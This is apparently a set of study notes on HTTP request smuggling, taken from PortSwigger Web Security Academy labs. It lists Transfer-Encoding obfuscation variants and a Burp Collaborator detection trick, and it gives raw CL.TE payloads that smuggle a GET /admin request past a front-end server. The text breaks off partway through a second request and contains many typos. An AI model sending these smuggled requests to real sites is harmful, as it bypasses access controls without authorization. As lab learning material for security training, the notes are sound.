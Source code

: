     Transfer-Encoding: chunked
    Transfer-Encoding: x

    Transfer-Encoding:[tab]chunked

    [space]Transfer-Encoding: chunked

    X: X[\n]Transfer-Encoding: chunked

    Transfer-Encoding
    : chunked


        Note:: After time delay technique if site is vulernable then you can use 

        Host: vulerabl-site
        X-Forwarded-For: burp-colab.net 

        If you get dns lookup in burp then site is vulerable


        If found TE.CL then for exploit you should use size of cunke before the second request







39(1) >>> Exploiting    HTTP request smugling

         >>>Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
                 
                 There's an admin panel at /admin, but the front-end server blocks access to it.  we can access it by HTTP smugle
                 
                 Issue the following request twice:
                 
         POST / HTTP/1.1
         Host: your-lab-id.web-security-academy.net
         Content-Type: application/x-www-form-urlencoded
         Content-Length: 54
         Transfer-Encoding: chunked

         0

         GET /admin HTTP/1.1
         Host: localhost
         X-Ignore: X
                 
            >>>Exploiting HTTP request smuggling to reveal front-end request rewriting

                perform the following steps: 

                -Find the POST request that reflects the value of a request parameter into application's response 
                -Shuffle the parameterso that the reflected parameter appears in the message body 
                -Smuggle this reques to the back-end server 
                POST / HTTP/1.1

        Host: acf61f3a1e270e0ec08a1f0200900069.web-security-academy.net
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 124
        Transfer-Encoding: chunked
